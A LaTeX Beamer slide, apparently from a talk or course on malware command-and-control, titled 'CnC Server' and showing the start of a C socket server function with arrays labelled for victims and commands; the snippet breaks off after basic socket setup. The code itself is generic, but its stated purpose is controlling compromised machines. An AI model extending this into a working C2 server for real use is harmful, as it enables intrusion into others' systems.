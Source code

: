 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Command and Control in C Sockets 0}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        bool net_server(int port,
                        net_client_beacon_t **p_victims,    // Victims Memory Array
                        net_server_beacon_t **p_commands){  // Commands Memory Array
          int server_fd, client_fd;
          struct sockaddr_in server, client;
          server_fd = socket(AF_INET, SOCK_STREAM, 0);      // Create Socket File Descriptor
          if (server_fd < 0){                               // Error Checking for Socket
            fprintf(stderr, "[x] %s\n", strerror(errno));
            return false;
          }
          if (setsockopt(server_fd,                         // Socket File Descriptor
                         SOL_SOCKET,                        // Manipulate Socket Options
                         SO_REUSEADDR,                      // Permit Local Host Reuse
                         &(int){ 1 },
                         sizeof(int)) < 0){
            fprintf(stderr, "[-] %s\n", strerror(errno));
          }
          memset(&server, 0, sizeof(server));              // Zero Out Server Struct
          server.sin_family      = AF_INET;                // Set TCP Type
          server.sin_port        = htons(port);            // Set Port
          server.sin_addr.s_addr = htonl(INADDR_ANY);      // Any Addresses
          // continued here...
      }
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
